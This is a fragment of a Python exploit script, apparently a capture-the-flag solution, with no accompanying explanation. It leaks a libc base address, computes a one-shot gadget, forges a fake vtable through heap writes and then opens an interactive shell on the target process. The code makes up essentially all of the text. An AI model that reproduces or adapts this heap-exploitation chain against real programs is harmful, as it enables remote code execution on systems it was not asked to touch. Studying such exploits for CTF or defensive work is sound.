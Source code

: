 ```python

		nao(0,2,2)

		naio(1,2,3)
		naio(1,3,4)

		cc(0,1)
		pi(8)
		pick(8,4)

		# libc leak
		calc(7,9,1)
		s.recv(1024)
		pi(7)
		libc = int(s.recv(1024)[1:-2],10) - 0x88888888 - l.symbols['read']
		oneshot = libc + 0x4526a
		log.info("LIBC : " + hex(libc))

		st(p64(oneshot))

		# set oneshot
		#target = heap - 0x680
		target = heap + 0x178
		mn(target % 0x100000000)
		mn(target >> 32)
		mn(0x30003000)
		mn(0x41414141)
		mn((heap-0x688) % 0x100000000)
		mn((heap-0x688) >> 32)

		# call fake vtable
		log.info("LAST")
		target = target - 0x8

		mn(target % 0x100000000)
		sleep(0.1)
		mn(target >> 32)

		nao(0,2,2)

		s.recv(1024)
		naio(1,9,6)
		sleep(0.1)
		naio(1,8,1)
		sleep(0.1)
		naio(1,9,2)
		sleep(0.1)
		pause()

		cc(0,1)
		pi(11)
		pick(11,3)

		calc(12,1,1)

		s.interactive()
		break

	except:
		pass
```


